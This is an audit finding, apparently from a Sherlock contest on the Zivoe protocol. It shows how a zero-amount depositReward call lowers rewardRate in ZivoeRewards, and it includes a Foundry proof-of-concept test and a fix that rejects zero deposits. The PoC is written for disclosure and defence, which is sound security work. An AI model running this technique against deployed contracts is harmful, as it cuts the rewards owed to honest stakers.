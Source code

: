 Breezy Taffy Dolphin

high

# malicious users can deposit 0 amount of rewards to lower the rewardRate， which will result in loss of rewards for the normal users

## Summary
malicious users can deposit 0 amount of rewards to lower the `rewardRate`
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228
## Vulnerability Detail
Assume:

Normally:


Sam stake 1000 ZVE tokens 

YDL has been unlocked and starts yield distribution,`rewardRate` is 175761778284

After `periodFinish`,sam calls` getRewards()` to get remaining rewards 455574529312128000 [4.555e17]

--------------------------------------------------------------------------------
Attack scenario:

Sam stake 1000 ZVE tokens 

YDL has been unlocked and starts yield distribution,`rewardRate` is 175761778284

After 2 days,bob(malicious user) deposit 0 amount of rewards to lower the rewardRate,
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228
at this point rewardRate is 164044326398 [1.64e11] < 175761778284 [1.757e11]

After `periodFinish`,Sam calls` getRewards()` to get remaining rewards 455,574,529,311091000 [4.555e17]  < 455,574,529,312128000 [4.555e17]
455,574,529,312128000  - 455,574,529,311091000=1037000
Sam will lose part of  rewards.


poc:
src/TESTS_Core/Test_ZivoeYDL.sol
```solidity
    function setUp() public {
        deployCore(false);
         // Create an OCG locker which moves ZVE from DAO -> OCG ... allows another account to claim.
        // We need ZVE accessible by someone to test the ZivoeRewards functionality contract (generic $ZVE staking contract).
        ZVEClaimer = new OCG_ERC20_FreeClaim(address(DAO));
        assert(zvl.try_updateIsLocker(address(GBL), address(ZVEClaimer), true));
        assert(god.try_push(address(DAO), address(ZVEClaimer), address(ZVE), 10000 ether, ""));
        ZVEClaimer.forward(address(ZVE), 5000 ether, address(sam));
        
    }
    function testpoc() public{
        uint256 amtSenior = 2000 ether; 

        uint256 amount = 1000 ether;

        // Simulating the ITO will "unlock" the YDL
        simulateITO_byTranche_optionalStake(amtSenior, true);

        // Must warp forward to make successfull distributYield() call.
        hevm.warp(YDL.lastDistribution() + YDL.daysBetweenDistributions() * 86400);

        // Deal DAI to the YDL
        mint("DAI", address(YDL), uint256(amount));

        assertEq(stZVE.totalSupply(), 0);
      
        assert(sam.try_approveToken(address(ZVE), address(stZVE), 1000 ether));
        sam.try_stake(address(stZVE), 1000 ether );
        assertEq(stZVE.totalSupply(), 1000 ether);

        YDL.distributeYield();
           
 
          (
            uint256 pre_rewardsDuration,// 

            uint256 pre_periodFinish,//
            uint256 pre_rewardRate,//175761778284 
            uint256 pre_lastUpdateTime,//
            uint256 pre_rewardPerTokenStored//
        ) = stZVE.rewardData(DAI);

        /****bob deposit 0 amount */
        hevm.warp(block.timestamp + 2 days);
        mint("DAI", address(bob), 1000 ether);
        assert(bob.try_approveToken(DAI, address(stZVE), 1000 ether));
        assert(bob.try_depositReward(address(stZVE), DAI, 0 ));
        /**** */
     
         (
            uint256 post_rewardsDuration,// 

            uint256 post_periodFinish,//
            uint256 post_rewardRate,//164044326398
            uint256 post_lastUpdateTime,//
            uint256 post_rewardPerTokenStored// 
        ) = stZVE.rewardData(DAI);
        //164044326398 < 175761778284 
        assertLt(post_rewardRate, pre_rewardRate);

        hevm.warp(block.timestamp + post_periodFinish);
       
        assert(sam.try_getRewards(address(stZVE)));
    }

```
## Impact
Users will lose part of their rewards due to malicious behavior

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228

https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352
## Tool used

Manual Review

## Recommendation
In order to avoid malicious behavior , it should be checked  whether the deposit amount is equal to 0
